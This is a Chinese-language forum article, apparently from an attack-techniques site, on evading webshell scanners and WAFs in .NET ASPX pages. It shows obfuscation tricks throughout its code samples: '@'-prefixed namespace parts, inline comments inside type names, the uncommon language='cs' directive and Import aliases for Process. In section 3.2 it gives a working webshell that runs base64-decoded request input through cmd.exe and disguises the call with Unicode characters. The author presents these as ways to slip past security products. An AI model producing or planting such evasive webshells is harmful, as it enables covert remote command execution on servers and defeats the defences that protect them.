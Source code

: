 0X01 背景
=======

.NET WebShell 绕过和免杀的方法系列第二季开始，接上季走硬刚Unicode编码绕过的方式Bypass主流的webshell查杀工具之后，本文介绍几种特殊的免杀和绕过技巧，至于具体都有哪些呢？请阅读者保持好奇心跟随笔者一探究竟吧！

0X02 符号
=======

2.1 逐字标识符
---------

@符号在.NET字符中有着特殊的意义，把“@”放在一个字符串前面，表示后面是一个逐字字符串，@符号的这个特点使得在表示系统文件路径时很方便，就可以不再需要转义符。使用@字符后无法在字符串中插入有效的换行符(\\n)或制表符(\\t)，因为将被当成正常字符串输出。例如以下Demo

```php
string filepath = "C:\\Program Files\\wmplayer.exe"; => C:\Program Files\wmplayer.exe
string filepath = @"C:\Program Files\wmplayer.exe"; => C:\Program Files\wmplayer.exe
string filename = @"dotNet\tFile";  => dotNet\tFile
```

另外还可以转义.NET平台保留的关键词，如 Class、NameSpace、int等，参考如下Demo

```php
namespace @namespace  
{  
  class @class {  
        public static void @static(int @int)  {  
            if (@int > 0) {  
                 System.Console.WriteLine("Positive Integer");     }  
            else if (@int == 0)  {  
                 System.Console.WriteLine("Zero");    }  
            else  {  
                 System.Console.WriteLine("Negative Integer");  }  
         }  
     }  
}
```

既然@字符可以做这么多有趣的事，咱们就研究下利用它绕过某些安全产品的防护规则，笔者在Process类完整的命名空间处每个点之间都加上@符，如下

```php
<script runat="server" language="c#">
public void Page_load(){
    @System.@Diagnostics.@Process.@Start("cmd.exe","/c mstsc");
}
</script>
```

2.2 内联注释符
---------

在.NET项目中单个aspx页面里支持使用内联注释符 /\*\*/ , 此符号只会注释掉两个\*号之间的内容，利用此特点也可以在类完全限定名每个点之间加上内联注释，如下

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
    public void Page_load()
    {
        System/**/.Diagnostics./**/Process/**/.Start("cmd.exe","/c calc");
    }
</script>
```

0X03 语言
=======

3.1 指定托管语言为C
------------

.NET WebForm项目通常包含多个ASPX文件，每个文件都是C#语言编写服务端代码，其@Page指令最常用的设置如以下代码所示，\[ Language \] 属性指明服务端所使用的托管语言类型，默认均为 Language="C#"

```php
<%@ Page Title="About" Language="C#"  AutoEventWireup="true" CodeBehind="About.aspx.cs" Inherits="WebApplication1.About" %>
```

\[ AutoEventWireup \] 属性可设置Index.aspx页面的事件是否自动绑定，其值为布尔类型，\[ CodeBehind \] 属性指定包含与页关联的类的已编译文件的名称，这个属性不能在运行时使用。\[ Inherits \] 定义本页面所继承的代码隐藏类，该类的以分部类方式定义于 \[ CodeBehind \] 属性所指向的 .cs文件中，该类派生于System.Web.UI.Page类。

3.2 指定托管语言为csharp
-----------------

在WebForm项目单个ASPX文件中@Page指令也不是必须要声明的，可以省略。&lt;script runat="server"&gt; 标签表示代码运行于服务端，language可指定为csharp，

```php
<script runat="server" language="csharp">
    public void Page_load()
    {
        if (!string.IsNullOrEmpty(Request["content"]))
        {
            var content = Encoding.GetEncoding("utf-8").GetString(Convert.FromBase64String(Request["content"]));
            System.Diagnostics.Pro\U0000FFFAcess.Star\uFFFAt("cmd.exe","/c " + content);
        }
    }
</script>
```

### 3.3 指定托管语言为cs

现在市面上大多数的安全防护产品和规则都紧盯着 language=csharp 或 language=c# 这两种，很多大马和小马在上传漏洞的场景下被封杀的死死的，但却忽略了.NET编译器还提供了 language=cs 这样的简略写法，有天帮助一位师傅成功绕过WAF拦截，哈哈挺有效的。  
参考的demo代码如下，具体原因在于 .Net编译器提供Microsoft.CSharp.CSharpCodeProvider类实现对C#代码编译的

```php
<%@ Page Language="cs" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
```

笔者分析程序集完全限定名为 Microsoft.CSharp.CSharpCodeProvider, System, Version=1.0.5000.0, Culture=neutral, PublicKeyToken=b77a5c561934e089，因为 System.CodeDom.Compiler.CodeDomProvider 类里的私有方法 GetCompilerInfoForLanguageNoThrow 获取config配置文件里的语言类型编译选项

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-6341c78637751a963a8797ac9659e7659d47e68e.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-994dc627c51f819e5cb35b181bb3768753a9cd6c.png)

从 PrivilegedConfigurationManager.GetSection 方法可以清楚的看到从配置文件的system.codedom标签下获取定义的所有语言类型，微软官方文档预设定义了三种，如下所示，详情点击 [微软官方文档](https://docs.microsoft.com/zh-cn/dotnet/framework/configure-apps/file-schema/compiler/compiler-element)

| 属性 | 描述 |
|---|---|
| `compilerOptions` | 指定用于编译的其他特定于编译器的参数。 |
| `extension` | 为语言提供程序提供由源文件使用的文件扩展名的分号分隔列表。 例如“.cs”。 |
| `language` | 提供由语言提供程序支持的语言名称的分号分隔列表。 例如“**C#;cs;csharp**”。 |
| `type` | 指定语言提供程序的类型名称，包括包含提供程序实现的程序集的名称。 类型名称必须符合指定完全限定的类型名称中定义的要求。 |
| `warningLevel` | 指定默认的编译器警告级别；确定语言提供程序将编译警告视为错误的级别。 |

所以在默认的.NET编译器里支持 language=cs 这样的声明，基于这点创造的webshell代码如下

```php
<script runat="server" language="cs">
public void Page_load(){
System.Diagnostics.Process.Start("cmd.exe","/c calc");
}
</script>
```

0X04 using别名
============

using + 命名空间名，这样可以在程序中直接用命令空间中的类型，而不必指定类型的详细命名空间，类似于Java的import，这个功能也是最常用的，如下

```php
using System; 
using System.Data; 
```

另外using语句还可以定义.NET资源使用范围，在程序结束时处理对象释放资源，比较常见与文件读写或者数据库连接等场景，如下代码

```php
using (SqlDataAdapter sqa = new SqlDataAdapter(sql, sc)) 
{ 
    sqa.SelectCommand.CommandTimeout = executeTimeOut; 
    sqa.Fill(dtRet); 
    return dtRet; 
} 
```

using还有个取别名的功能，using + 别名 = 包括详细命名空间信息的具体的类型，当需要用到这个类型的时候，就每个地方都要用详细命名空间的办法来区分这些相同名字的类型，当然被笔者用来做免杀也是相当的赞，但在ASPX单个页面使用时，using变成Import关键词，如下代码

```php
<%@ Import Namespace="dotNet=@System.@Diagnostics.@Process" %>
<script runat="server" language="c#">
public void Page_load(){
  dotNet.Start("cmd.exe","/c calc");
  }
</script>
```

将Process类的完全命名空间赋给dotNet这个别名，然后再代码中直接使用 dotNet.Start 方法启动新进程，这种方式或许能绕过一些安全产品的规则。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-ea83f7c8780fd3b4c120ca20b4b981669464feed.png)

0X05 结语
=======

.NET这些有趣的Tricks还有很多，如果对这些技巧感兴趣的话可以多关注我们的[博客](https://www.cnblogs.com/Ivan1ee/)、[公众号dotNet安全矩阵](https://mp.weixin.qq.com/s/VIsJlDmWGD0QcgBDDsRP9g)以及[星球](https://t.zsxq.com/04yFmii2b)，下一篇将继续分享 .NET 免杀Trick，请大伙继续关注文章。另外文章涉及的PDF和Demo已打包发布在星球，欢迎对.NET安全关注和关心的同学加入我们，在这里能遇到有情有义的小伙伴，大家聚在一起做一件有意义的事。